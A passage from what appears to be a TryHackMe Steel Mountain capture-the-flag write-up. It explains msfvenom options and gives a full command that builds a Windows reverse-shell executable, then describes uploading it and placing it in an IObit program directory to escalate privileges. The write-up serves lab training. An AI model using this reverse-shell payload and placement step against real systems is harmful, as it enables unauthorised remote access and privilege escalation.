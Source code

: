 <br>![](/assets/img/posts/tryhackme-steel-mountain-ctf-writeup/14.jpg){:.normal}<br><br>

Launch up **msfvenom** to deploy a reverse shell binary. 

| Parameter              | Functionality                                          | 
|:-----------------------|:-------------------------------------------------------|
|LHOST                   | The IP address that the reverse shell will connect     |
|LPORT                   | The port that the reverse shell will connect           |
|-p                      | Payload to use                                         |
|-o                      | Name of the file                                       |
|-f                      | File type of the output binary                         |

Full command:
{% highlight bash %}
msfvenom -p windows/shell_reverse_tcp LHOST={THM IP} LPORT={RANDOM FREE PORT} -f exe -o {somename}.exe
{% endhighlight %}
<br>![](/assets/img/posts/tryhackme-steel-mountain-ctf-writeup/15.jpg){:.normal}<br><br>

-> Upload the binary to the target machine.
<br>-> Get the **shell** again.
<br>![](/assets/img/posts/tryhackme-steel-mountain-ctf-writeup/16.jpg){:.normal}<br><br>

-> Relocate the binary into **C:\Program Files (x86)\IObit** directory.